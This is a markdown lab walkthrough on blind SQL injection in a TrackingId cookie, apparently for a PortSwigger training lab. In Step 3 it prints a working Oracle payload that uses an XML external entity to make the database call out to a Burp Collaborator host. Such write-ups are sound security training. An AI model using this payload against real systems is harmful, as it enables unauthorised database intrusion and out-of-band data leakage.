






# Lab: Blind SQL Injection with Out-of-Band Interaction

## Objective
Exploit a blind SQL injection vulnerability to:
- Trigger an out-of-band (OAST) interaction
- Use Burp Collaborator to detect the interaction
- Solve the lab by confirming the vulnerability

---

## Lab Overview

In this lab:
- The application does **not return query results**
- No visible errors or time delays are present
- The vulnerability can only be detected via **out-of-band interaction**

### We use **Burp Collaborator** to receive DNS/HTTP requests from the database

---

## Step 1: Identify Injection Point

Intercept the request and locate the `TrackingId` cookie.

### Test injection:
TrackingId=xyz'

### Result:
- No visible change in response

### Possible blind SQL injection

---

## Step 2: Get Burp Collaborator Payload

- Open **Burp Suite**
- Go to **Burp Collaborator**
- Click **Copy to clipboard**

Example:
abc123.burpcollaborator.net

---

## Step 3: Trigger Out-of-Band Interaction

## since we don't know the type of database we are gonna try every thing

### Payload (Oracle):
TrackingId=xyz'||(SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [<!ENTITY % remote SYSTEM "http://abc123.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'

then press ctr +u to encode it and then send the request

---

## Explanation

- The payload forces the database to:
  - Parse XML
  - Load an external entity
  - Make a request to the Collaborator server

### This triggers a **DNS/HTTP request**

---

## Step 4: Verify Interaction

- Go back to **Burp Collaborator**
- Click **Poll now**

### Result:
- You receive a **DNS or HTTP interaction**

### This confirms:
- The SQL injection vulnerability exists
- The database can make external requests

---

## Result

### Successfully triggered an out-of-band interaction  

### Confirmed blind SQL injection vulnerability  

---

- **XML External Entity (XXE via SQLi)**
  - Used to trigger external requests

---
